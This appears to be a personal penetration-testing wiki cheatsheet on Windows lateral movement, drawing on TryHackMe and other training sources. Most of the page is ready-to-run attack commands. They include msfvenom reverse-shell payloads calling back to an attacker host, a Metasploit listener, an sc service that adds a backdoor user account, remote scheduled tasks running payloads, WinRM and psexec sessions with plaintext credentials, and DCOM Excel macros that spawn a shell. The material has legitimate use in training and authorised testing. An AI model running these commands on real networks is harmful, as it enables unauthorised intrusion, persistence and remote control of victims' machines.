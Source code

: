 # Windows Network Lateral Movement
The articles [[Network-Protocols]], [[Network-Services]] and [[Windows-Networking]] will provide theory background information, while [[Windows-Networking-Commands]], [[Windows-CLI-cmd]] ,[[SMB-Recon-Cheatsheet]] and [[RPCClient-Cheatsheet]] articles will provide command cheatsheet referal.

## MSFVenom
[[MSFvenom-Payloads]] for exe-service
```bash
 msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=$ATTACKER_IP LPORT=4444 -o myservice.exe
```
Upload with smbclient
```bash
smbclient -c 'put myservice.exe' -U <username> -W <workgroup> '//<domain>/share$' <Password> 
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $ATTACKER_IP; set LPORT 4444;exploit"
```

```shell-session
runas /netonly /user:<DOMAIN>\<username> "c:\reverse\shell.exe <options> $ATTACKER_IP $PORT"
```

## Spawning Process Remotely
See [[Windows-Processes]] for more information on Service and Processes. [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) of Sysinternal Tools is used by Admins so will less likely blocked by Firewall. See [[Sysinternals-Hub]] for more Sysinternals. Requires:
1. Port 445/TCP (SMB) 
1. Requires: `Administrator Group` Membership

`psexec` connects to `Admin$` share and uploads a service binary with the name  `psexesvc.exe` then connects to service control manager to create and run a service named `PSEXESVC` and associates the service binary with `C:\Windows\psexesvc.exe`, finally creating named pipes to handles Std(in/out/err).

```powershell
psexec64.exe \\$IP -u Administrator -p ******** -i cmd.exe
```

It is also an Impacket tool see [[Impacket-Cheatsheet]]

## Remote Process Creation Using WinRM
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely, with most Windows Server installations have WinRM enabled by default.

1. Ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
2. Requires: `Remote Management Users Group` Membership

Connect to remote powershell session:
```powershell
winrs.exe -u:Administrator -p:********** -r:$target cmd
```

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting) suggests that you can accomplish a similar thing with a Powershell by creating a PSCredential object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Enter-PSSession cmdlet to create and interactive session:
```powershell
Enter-PSSession -Computername $TARGET -Credential $credential
```

Using Invoke-Command cmdlet we can run ScriptBlocks remote via WinRM. 
```powershell
Invoke-Command -Computername $TARGET -Credential $credential -ScriptBlock {whoami}
```

## Remote Service Creation with `sc`
1. Ports:  
	1. 135/TCP, 49152-65535/TCP (DCE/RPC)
	2. 445/TCP (RPC over SMB Named Pipes)
	3. 139/TCP (RPC over SMB Named Pipes)
2.  Requires: `Administrator Group` Membership

Windows Ser services execute a command when started, `sc` we create a service on a remote host and attempt to connect to the Service Control Manager(SVCCTL) remote service program through RPC in multiple ways.
1. DCE/RPC `Request -> EMP(port 135) -> Response=SVCCTL is <dynamic port>` Then `RPC Bind to SVCCTL on <dynamic port>`
2. If the above failes `sc` connects to port `Named pipe <\pipe\svcctl\>` on port 445 (SMB or 139 ()

```powershell
sc.exe \\$TARGET create Badbadservice binPath= "net user friend Pass123 /add" start= auto
sc.exe \\$TARGET start Badbadservice
# To Stop and Delete service 
sc.exe \\$TARGET stop Badbadservice
sc.exe \\$TARGET delete Badbadservice
```

## Creating Scheduled Tasks Remotely
`schtasks` can create tasks remotely with `/s` flag.
```powershell
schtasks /s $TARGET /RU "SYSTEM" /create /tn "Badtask" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s $TARGET /run /TN "Badtask" 
# To delete
schtasks /S $TARGET /TN "Badtask" /DELETE /F
```

## Exploitation Hashes and Ticket passing for Lateral Movement

See indiviual articles:
[[Pass-The-Hash]]
[[Overpass-The-Hash]]
[[Pass-the-Ticket]]


## Distributed Component Object Model(DCOM)
[The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other](https://en.wikipedia.org/wiki/Component_Object_Model). Similar to [[Object-Oriented-Programming]], but for OS objects and thier interactions. [DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) being *Distributed* object across a Windows Network. They ancient technologies that are present in the early days of Windows. One of many [[Network-Services]] used in AD it specifically interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API. [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

There are various Microsoft Office DCOM objects that allow for lateral movement.
```powershell
# Create an instance, listing all avaliable methods 
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$IP"))
$com | Get-Member
```
With the `Run` method we can run VBA macro remotely.
```vba
Sub mymacro()
    Shell ("cmd.exe")
End Sub
```
Using legacy .xls formatting the macro is write inside the Office \*-application and then copied to a remote filesystem through SMB using .NET `Copy` method of `System.IO.File` class.
```powershell
$LocalPath = "C:\Users\Administrator\mytrojan.xls"

$RemotePath = "\\$IP\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```
To then open it remotely
```powershell
$Path = "\\$IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

The base64 encode [[MSFvenom-Payloads]] command to create HTA attack is:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f hta-psh -o evil.hta
```
The LHOST can be the DC that can called back to a listener.

[[Impacket-Cheatsheet]] with dccomexec.py

## Pass the ccache
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



## References
[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[Alternate PtH methods](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/0)
[Graeber BH Whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
[DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) 
[COM](https://en.wikipedia.org/wiki/Component_Object_Model)
[MS DCOM Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)